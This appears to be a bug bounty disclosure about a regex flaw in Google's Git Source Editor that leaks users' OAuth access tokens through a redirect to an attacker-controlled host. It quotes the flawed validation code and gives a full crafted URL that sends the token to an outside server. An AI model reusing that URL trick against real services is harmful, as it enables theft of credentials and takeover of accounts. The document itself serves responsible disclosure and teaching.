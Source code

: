 ```yaml
---
title: googlesource.com access_token leak (Awarded $7500)
---
```


A bug in the [Git Source Editor](https://source.android.com/docs/setup/contribute/source-editor), the official browser-based tool by Google for editing files in projects such as [Chromium](https://edit.chromium.org/edit) and [Android](https://ci.android.com/edit), allowed to leak the user's OAuth token by redirecting to an attacker-controlled URL supplied in the URL parameters.

Video PoC: <https://drive.google.com/file/d/1gxnyiXlDrEN72VzHGHpAbYHDGQTQ0zG6/view?usp=sharing>

Target: _Applications that permits taking over a Google account_  
Category: _Execute code on the client_

The following regex was used to validate the redirect URLs. Normally, the URL would be restricted to `*.googlesource.com` or `*.git.corp.google.com`.  
The regex, however, did not correctly validate the URLs, causing `https://android.googlesource.com/aogarantiza.com:1337#.googlesource.com/platform/build/+show/refs/heads/master/Changes.md` to send a request to `https://aogarantiza.com:1337`, instead of `https://android.googlesource.com`, This made it possible to leak the `access_token` to the attacker.

```js
L1.GERRIT_LINK_MATCHER =
  /(.*\/)?(.*?)\.((googlesource\.com)|(git\.corp\.google\.com))\/(.*)\/\+([a-zA-Z0-9]+)?(\/refs\/heads)?\/(.*?)[\/^](.*)/;
L1.GERRIT_LINK_MATCHER_FOR_CHANGE_FILE =
  /(.*\/)?(.*?)\.((googlesource\.com)|(git\.corp\.google\.com))\/?(\/c)?\/(.*)\/\+\/([0-9]+)\/([0-9]+)\/(.*)/;
L1.GERRIT_LINK_MATCHER_FOR_CHANGE_FILE_IN_GITLES =
  /(.*\/)?(.*?)\.((googlesource\.com)|(git\.corp\.google\.com))\/(.*)\/\+([a-zA-Z0-9]+)?(\/refs\/changes)?\/([0-9]+)\/([0-9]+)\/([0-9]+)[\/^](.*)/;

function Z1(a) {
  if (
    !Cra.some(function (g) {
      return null != g.exec(new URL(a).origin);
    })
  )
    throw Error('Invalid host domain passed ' + a);
  var d = L1.GERRIT_LINK_MATCHER.exec(a),
    f = Dra.exec(a);
  if (f)
    return {
      host: f[2],
      project: f[6],
      branch: f[7],
      file: f[8]
    };
  if (d)
    return {
      host: d[2],
      project: d[6],
      branch: d[9],
      file: d[10]
    };
  throw Error('Unable to parse change pieces.');
}
```
